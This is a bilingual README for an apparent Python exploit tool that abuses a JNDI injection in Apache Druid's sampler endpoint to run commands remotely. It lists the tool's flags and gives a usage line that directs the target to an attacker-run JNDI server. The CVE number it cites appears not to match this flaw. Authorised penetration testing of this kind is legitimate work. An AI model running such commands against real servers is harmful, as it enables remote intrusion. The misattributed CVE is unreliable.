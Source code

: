 # Apache Druid JNDI Vuln
## Druid JNDI 注入漏洞利用脚本
本项目是一个利用 Druid JNDI 注入漏洞的 Python 脚本。该漏洞存在于 Druid 的 indexer/v1/sampler 接口中，攻击者可以通过构造恶意请求，在目标服务器上执行任意命令。

This project is a Python script that exploits the Druid JNDI injection vulnerability. The vulnerability exists in the indexer/v1/sampler interface of Druid, allowing an attacker to execute arbitrary commands on the target server by constructing a malicious request.

## 使用方法
使用该脚本需要提供以下参数：
- -t 或 --target：目标服务器的 IP 地址或主机名；
- -j 或 --jndi-ip：JNDI 服务器的 IP 地址；
- -c 或 --cmd：要执行的命令。
## 示例：

```bash
python druid.py -t 192.168.0.1 -j 192.168.0.2 -c "touch /tmp/success"
```
使用该脚本需要先安装 Python 3 和 requests 库。

## 注意事项
该脚本仅用于授权的渗透测试或教育目的，禁止用于非法用途；
在使用该脚本时，请务必遵守当地法律法规和道德准则，自行承担使用该脚本所造成的风险和后果；
该脚本可能会对目标服务器造成不可逆的损害，请谨慎使用。

Druid JNDI Injection Exploit Script
This project is a Python script that exploits the Druid JNDI injection vulnerability. The vulnerability exists in the indexer/v1/sampler interface of Druid, allowing an attacker to execute arbitrary commands on the target server by constructing a malicious request. The CVE number for this vulnerability is CVE-2021-38645.

## Usage
To use this script, you need to provide the following parameters:
- -t or --target: the IP address or hostname of the target server;
- -j or --jndi-ip: the IP address of the JNDI server;
- -c or --cmd: the command to execute.
## Example:

```bash
python druid.py -t 192.168.0.1 -j 192.168.0.2 -c "touch /tmp/success"
```
To use this script, you need to install Python 3 and the requests library first.

## Disclaimer
This script is for authorized penetration testing or educational purposes only. It is strictly prohibited to use it for illegal purposes;
When using this script, please comply with local laws and regulations, and ethical standards. You are solely responsible for the risks and consequences caused by using this script;This script may cause irreversible damage to the target server. Use it at your own risk.
